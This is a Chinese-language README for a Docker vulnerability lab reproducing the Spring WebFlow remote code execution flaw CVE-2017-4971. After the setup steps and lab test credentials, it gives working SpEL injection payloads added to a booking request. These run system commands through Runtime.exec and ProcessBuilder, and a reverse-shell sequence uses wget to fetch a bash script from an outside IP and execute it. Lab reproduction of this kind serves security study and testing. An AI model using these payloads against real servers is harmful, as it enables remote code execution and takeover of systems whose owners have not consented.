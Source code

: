 ## Spring WebFlow 远程代码执行漏洞(CVE-2017-4971)

### 漏洞信息

* [CVE-2017-4971：Spring WebFlow 远程代码执行漏洞分析](http://bobao.360.cn/learning/detail/3963.html)

### 影响版本

Spring WebFlow 2.4.0 ~ 2.4.4

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
测试帐号1 | keith | melbourne
测试帐号2 | erwin | leuven
测试帐号3 | jeremy | atlanta
测试帐号4 | scott | rochester
登陆地址 | /login | -
容器tomcat端口 | 8080 | -

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_springwebflow_1
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_springwebflow_1
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

#### PoC

假定目标地址为： http://127.0.0.1:32773

1. 使用测试账号登录目标站 http://127.0.0.1:32773/login

2. 随便找一个酒店(http://127.0.0.1:32773/hotels/1),点 `Book Hotel`

3. 填写订单详情，后点击 `Proceed` 生成订单

 > 注意：Credit Card 这里是 16 位（前端校验）

4. 打开 BurpSuite 准备截包

5. 用 BurpSuite 捕获点击下图 `Confirm` 后的数据包

 ![](poc-step-1.png)

6. 在POST数据包中加入下面这段数据：

 ```
&_T(org.springframework.web.context.request.RequestContextHolder).getRequestAttributes().getResponse().addHeader("vulnerable","True").aaa=n1nty
 ```
 ![](poc-step-2.png)

7. 执行成功后会如上图所示，在 HTTP 返回头部中会多出 `vulnerable` 字段

#### Exp

执行命令：

```
&_T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
```

或者

```
&_(new+java.lang.ProcessBuilder("touch /tmp/success2")).start()=test
```

#### 反弹 Shell 步骤：

> 如果你能改成一次就能反弹Shell的 Exp, 欢迎分享

假定目标地址为： http://127.0.0.1:32774

1. 使用 `wget` 下载远程 bash 脚本

 ```
&_T(java.lang.Runtime).getRuntime().exec("/usr/bin/wget -qO /tmp/1 http://192.168.2.140:8000/1")
 ```
 ![](exp-step-1.png)

2. 执行上一步下载的脚本

 ```
&_T(java.lang.Runtime).getRuntime().exec("/bin/bash /tmp/1")
 ```
 ![](exp-step-2.png)

### 参考链接

* [CVE-2017-4971：Spring WebFlow 远程代码执行漏洞分析](http://bobao.360.cn/learning/detail/3963.html)
* [CVE-2017-4971: Data Binding Expression Vulnerability in Spring Web Flow](https://pivotal.io/security/cve-2017-4971)

